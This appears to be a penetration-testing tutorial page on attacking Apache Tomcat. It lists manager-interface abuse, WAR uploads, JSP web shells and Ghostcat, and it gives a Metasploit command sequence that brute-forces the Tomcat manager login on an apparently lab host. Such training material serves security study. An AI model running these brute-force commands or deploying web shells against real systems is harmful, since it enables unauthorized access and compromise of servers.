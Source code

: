 # ⚔️ Tomcat Attacks & Exploitation

> **🎯 Objective:** Master advanced exploitation techniques for Apache Tomcat servlet containers, focusing on manager interface abuse, WAR file upload attacks, JSP web shell deployment, and known vulnerability exploitation for achieving remote code execution and system compromise.

## Overview

Tomcat exploitation represents one of the **highest-impact attack vectors** in enterprise environments, often providing **immediate remote code execution** with **elevated privileges** (SYSTEM/root). With **widespread deployment** across internal networks and **frequent misconfigurations**, Tomcat attacks offer **reliable pathways** for **initial access** and **privilege escalation** in **Active Directory** and **Linux server environments**.

**Critical Attack Vectors:**
- **Manager Interface Exploitation** - /manager/html authentication bypass and abuse
- **WAR File Upload Attacks** - Malicious application deployment for RCE
- **JSP Web Shell Deployment** - Persistent backdoor access and command execution
- **CVE-2020-1938 Ghostcat** - Unauthenticated local file inclusion vulnerability
- **Default Credential Abuse** - Weak authentication bypassing enterprise security

**Enterprise Impact:**
- **External Foothold** - Tomcat commonly exposed on perimeters for high-impact initial access
- **Internal Privilege Escalation** - Frequent SYSTEM/root execution context in enterprise deployments
- **Active Directory Compromise** - Domain-joined Windows servers running Tomcat with elevated privileges
- **Data Exfiltration** - Access to application data, configuration files, and sensitive backend systems

---

## Manager Interface Authentication Attacks

### Metasploit Brute Force Methodology

#### Auxiliary Scanner Configuration
```bash
# Launch Metasploit Framework
msfconsole

# Load Tomcat manager brute force module
use auxiliary/scanner/http/tomcat_mgr_login

# Configure target parameters
set VHOST web01.inlanefreight.local
set RPORT 8180
set RHOSTS 10.129.201.58
set STOP_ON_SUCCESS true
set BRUTEFORCE_SPEED 5

# Verify configuration
show options

# Execute brute force attack
run
```
